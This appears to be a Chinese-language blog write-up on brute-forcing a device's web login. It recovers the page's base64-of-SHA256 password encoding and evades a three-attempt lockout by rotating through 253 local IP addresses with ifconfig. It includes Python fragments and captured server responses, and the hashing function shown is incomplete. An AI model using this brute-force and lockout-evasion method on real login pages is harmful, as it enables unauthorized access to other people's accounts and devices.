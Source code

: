     {"errorCategory":"user_pass_err","csrf_param":"gn73LuAQ4GxsQkWLdpDVSDKcxinFbli","count":1,"csrf_token":"gu/bK/YjwYBL/uFQEA+v1W2oOz5fARI"}


## 密码的生成方法
从上面抓包的结果来看，Password字段是经过加密的，所以如果我们要暴力破解，需要把这个password的生成算法找出来。
打开web登录页面，查看源代码，找找算法：

![](http://fs-image.pull.net.cn/18-7-26/84639279.jpg)

在web页面包含的js文件中，找到了UserName和Password的生成方案。

password_str = base64Encode(SHA256(password));

	def encrpyt_password(my_org_pass):
		hash_256 = hashlib.sha256()
		hash_str = my_org_pass
		hash_256.update(hash_str.encode('utf-8'))
		hash_256_value = hash_256.hexdigest()
		encodestr = base64.b64encode(hash_256_value.encode('utf-8'))
	    pass;


## 登录的限制
连续登录3次错误密码，会在1分钟之内无法登录。

![](http://fs-image.pull.net.cn/18-7-26/64515300.jpg)

## 绕过3次错误密码，等待一分钟的限制
  在这里我使用修改IP地址的方式来加快暴力破解的速度。原理就是当一个ip地址的登录次数超过3次时，那就换下一个IP来登录页面，253个ip,每个ip可以过3个密码，253*3 = 759,每次可以测试759个密码，2分钟能过759个，1天1440分钟能测试54万多点密码，如果密码不复杂，差不多是可以跑出来的。

  在linux上修改ip地址，很简单一条命令就可以解决：

	def change_my_ip(c_ip):
		ip_last=c_ip
		cmd = 'ifconfig eth1 192.168.3.' + str(ip_last);
		a = os.popen(cmd);
		pass;

## 提示内容：

密码错误的提示文本：

    [password:1234567000];{"errorCategory":"user_pass_err","csrf_param":"FcnG919l8J7XhQsOYQEMS3WhsC2liSX","count":2,"csrf_token":"IQ/LfSZSx7gTp6VflYnZelobNSpoMy2"}

ip地址被限制，需要等待1分钟的提示：

    [password:1234567001];{"errorCategory":"Three_time_err","csrf_param":"VKGTylVILQA9SFsTyYdpkHv8qfJPIIw","count":3,"csrf_token":"MTQLBcWQN+1DJjAP+A6xC4AUSXciBod"}

登录成功的提示：
